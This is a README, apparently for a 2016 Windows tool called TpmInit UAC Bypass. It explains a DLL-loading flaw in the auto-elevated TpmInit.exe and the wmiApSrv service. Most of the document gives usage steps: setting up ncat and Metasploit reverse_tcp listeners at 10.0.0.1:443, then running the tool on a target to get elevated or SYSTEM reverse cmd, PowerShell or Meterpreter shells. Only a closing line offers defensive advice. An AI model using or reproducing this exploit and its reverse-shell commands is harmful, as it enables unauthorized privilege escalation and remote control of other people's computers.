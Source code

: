 ```
   ______                ____      _ __
  /_  __/___  ____ ___  /  _/___  (_) /_
   / / / __ \/ __ `__ \ / // __ \/ / __/
  / / / /_/ / / / / / // // / / / / /_
 /_/ / .___/_/ /_/ /_/___/_/ /_/_/\__/
    /_/
                    UAC Suicide Squad
                      By Cn33liz 2016
```

A tool to Bypass User Account Control (UAC), to get a High Integrity (or SYSTEM) Reversed Command shell, 
a reversed PowerShell session, or a Reversed Meterpreter session.
When TpmInit.exe starts, it first tries to load the wbemcomn.dll within C:\Windows\System32\wbem.
This DLL cannot be found in that folder, so it tries to load the DLL again, but then in C:\Windows\System32.
This tool exploits this DLL loading vulnerability within TpmInit.exe, which runs auto-elevated by default.
Same issue also applies to the WMI Performance Adapter service (wmiApSrv) which runs with SYSTEM privileges.
So while we can use TpmInit.exe to get Elevated priviliges, we can also use it to start the wmiApSrv service,
and get a SYSTEM shell using our custom DLL :)

Works on:

```
This version has been succesfully tested on Windows 8.1 x64 and Windows 10 x64 (Version 1511).
```

Compile:

```
This project is written in C/C++ using Windows API calls, so you need Visual Studio to compile.
Source code of the needed dll's are included within the project, but not needed to run the tool.
They are embedded within the main executable (as Base64 encoded and compressed binaries).
```

### How to use it:

```
* [>] Usage: First setup a remote Netcat, Ncat or Meterpreter(x64) listener
* [>] Example: KickAss@PenTestBox:~$ sudo ncat -lvp 443

* [>] Or for msf: KickAss@PenTestBox:~$ sudo msfconsole
* [>] msf > use exploit/multi/handler
* [>] msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
* [>] msf exploit(handler) > set LHOST 10.0.0.1
* [>] msf exploit(handler) > set LPORT 443
* [>] msf exploit(handler) > exploit -j

* [>] Then on your target: TpmInitUACBypass.exe <Remote Listener IP> <Port> <powershell, cmd or msf> <system>

* [>] Example1: Remote Elevated Cmd Shell:   TpmInitUACBypass.exe 10.0.0.1 443 cmd
* [>] Example2: Remote SYSTEM Cmd Shell:     TpmInitUACBypass.exe 10.0.0.1 443 cmd system
* [>] Example3: Remote Elevated PowerShell:  TpmInitUACBypass.exe 10.0.0.1 443 powershell
* [>] Example4: Remote SYSTEM PowerShell:    TpmInitUACBypass.exe 10.0.0.1 443 powershell system
* [>] Example5: Remote Elevated Meterpreter: TpmInitUACBypass.exe 10.0.0.1 443 msf
* [>] Example6: Remote SYSTEM Meterpreter:   TpmInitUACBypass.exe 10.0.0.1 443 msf system
```

### Strong Advice

* Do not use accounts with Administrative privileges for daily computer usage!
